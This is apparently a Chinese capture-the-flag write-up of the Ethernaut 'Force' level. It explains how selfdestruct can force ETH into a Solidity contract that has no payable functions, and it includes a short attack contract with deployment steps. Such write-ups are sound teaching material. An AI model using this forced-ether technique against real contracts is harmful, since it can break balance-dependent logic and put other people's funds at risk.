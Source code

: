 ```yaml
---
layout: post
title: Force
---
```


# Force
关于强制向某个地址进行转账
```solidity
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### 代码分析
上述合约没有实际的代码，没有fallback函数，所以如何通过transfer，sendTransaction等方法直接向合约地址转账会失败。
但是，如果将该地址作为miner的受益地址或者将其作为selfdestruct的受益地址时，资金还是可以转移到该合约地址上。
因为上述两种情形都没有执行合约的代码。

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract ForceAttack {

  function ForceAttack() public payable {}
  function() public payable {}

  function attack(address target) public {
    selfdestruct(target);
  }
}
```

### 攻击步骤
1. 部署攻击合约，并向其发送一定数量的eth
2. 调用攻击合约的attack(address)方法